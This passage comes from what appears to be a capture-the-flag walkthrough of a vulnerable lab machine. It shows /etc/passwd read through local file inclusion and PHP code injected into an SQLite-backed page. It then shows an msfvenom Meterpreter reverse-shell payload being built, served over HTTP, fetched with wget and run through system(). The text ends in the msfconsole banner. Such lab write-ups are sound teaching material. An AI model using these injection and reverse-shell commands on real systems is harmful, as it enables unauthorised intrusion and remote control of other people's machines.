 list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
ntp:x:103:108::/home/ntp:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
statd:x:105:65534::/var/lib/nfs:/bin/false
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
zico:x:1000:1000:,,,:/home/zico:/bin/bash
{% endhighlight %}

Now let's see if our code has executed.

{% highlight text %}
http://10.0.0.8/view.php?page=../../../usr/databases/share.php
SQLite format 3@ -â! ››c)tabletesttestCREATE TABLE 'test' ('text' INTEGER default 'www-data www-data') 
{% endhighlight %}

It's working! Now we can see if `nc` is installed in order to execute a reverse shell. 

{% highlight text %}
<?php echo(system("which nc"))?>
SQLite format 3@  -â! áa%tabletesttestCREATE TABLE 'test' ('test' TEXT default '/bin/nc /bin/nc') 
{% endhighlight %}

And as it's installed, let's prepare the reverse tcp shell. 

{% highlight text %}
root@kali:~# msfvenom --platform Linux -p linux/x64/meterpreter_reverse_tcp LHOST=10.0.0.4 LPORT=1337 -f elf -o exploit
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 911184 bytes
Final size of elf file: 911184 bytes
Saved as: exploit
root@kali:~# python -m SimpleHTTPServer 
Serving HTTP on 0.0.0.0 port 8000 ...
{% endhighlight %}

Now we simply have to get it from our Kali machine and execute it. 

{% highlight text %}
<?php system("cd /tmp;wget 10.0.0.4:8000/exploit; chmod +x exploit; ./exploit"); ?>
{% endhighlight %}

Viewing this website just the same way as previously got us a reverse shell. 

{% highlight text %}
root@kali:~# msfconsole
                                                  \../
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%     %%%         %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %%  %%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %  %%%%%%%%   %%%%%%%%%%% https://metasploit.com %%%%%%%%%%%%%%%%%%%%%%%%
%%  %%  %%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %%%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%  %%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%    %%   %%%%%%%%%%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%  %%%%%
%%%%  %%  %%  %      %%      %%    %%%%%      %    %%%%  %%   %%%%%%       %%
%%%%  %%  %%  %  %%% %%%%  %%%%  %%  %%%%  %%%%  %% %%  %% %%% %%  %%%  %%%%%
%%%%  %%%%%%  %%   %%%%%%   %%%%  %%%  %%%%  %%    %%  %%% %%% %%   %%  %%%%%